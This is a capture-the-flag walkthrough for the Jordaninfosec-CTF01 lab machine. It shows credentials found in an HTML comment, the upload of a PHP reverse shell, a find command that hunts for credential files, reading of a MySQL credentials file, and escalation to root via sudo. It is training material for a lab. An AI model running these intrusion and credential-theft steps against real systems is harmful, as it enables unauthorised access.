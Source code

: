 ```yaml
---
categories: [Proving Grounds Play]
tags: [PrivEsc]
---
```


Let’s check the IP address of the victim machine →

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled.png)

```bash
IP : 10.0.2.46 
```

## Port Scan Results ⤵️

```bash

```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%202.png)

hint.txt —>

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%204.png)

```jsx
<!--	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
-->
```

Lets login into this site —> 

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%205.png)

and now upload the reverse shell file here —>

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%206.png)

As ⬆️ I got success in uploading the files so lets load that shell file ➡️

```jsx
URL --> http://10.0.2.46/uploaded_files/shell.php
```

In response to that I got this —> 

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%207.png)

Actually, this statement of hidden file was a little misleading, because the file we are looking for was not hidden… I tried to search for user, pass, etc… files, but unfortunately, none of them worked. Lastly, I tried `find / -name cred*`, which revealed the /etc/mysql/conf.d/credentials.txt file.

```jsx
www-data@Jordaninfosec-CTF01:/$ find / -name cred* 2>/dev/null
/sys/kernel/slab/cred_jar
/usr/share/man/man7/credentials.7.gz
/usr/share/doc/git/contrib/credential
/usr/src/linux-headers-4.4.0-31/include/linux/cred.h
/usr/src/linux-headers-4.4.0-210/include/linux/cred.h
/usr/src/linux-headers-4.4.0-72/include/linux/cred.h
/etc/mysql/conf.d/credentials.txt
www-data@Jordaninfosec-CTF01:/$
www-data@Jordaninfosec-CTF01:/$ cat /etc/mysql/conf.d/credentials.txt
cat /etc/mysql/conf.d/credentials.txt
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
www-data@Jordaninfosec-CTF01:/$
```

Now thank god I got the credentials I was pissed so bad —>

```jsx
www-data@Jordaninfosec-CTF01:/$ su technawi
su technawi
Password: 3vilH@ksor

technawi@Jordaninfosec-CTF01:/$ whoami
whoami
technawi
technawi@Jordaninfosec-CTF01:/$
```

Now lets see how technawi can lead me to root —>

```jsx
technawi@Jordaninfosec-CTF01:/$ sudo -l
sudo -l
[sudo] password for technawi: 3vilH@ksor

Matching Defaults entries for technawi on Jordaninfosec-CTF01:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User technawi may run the following commands on Jordaninfosec-CTF01:
    (ALL : ALL) ALL
technawi@Jordaninfosec-CTF01:/$
```

Now its root time ➡️

```jsx
technawi@Jordaninfosec-CTF01:/$ sudo /bin/bash -i
sudo /bin/bash -i
root@Jordaninfosec-CTF01:/# whoami
whoami
root
root@Jordaninfosec-CTF01:/#
```

Let’s find out the last flag ➡️

```jsx
root@Jordaninfosec-CTF01:/var/www/html# cat flag.txt
cat flag.txt
The 5th flag is : {5473215946785213456975249}

Good job :)

You find 5 flags and got their points and finish the first scenario....
root@Jordaninfosec-CTF01:/var/www/html#
```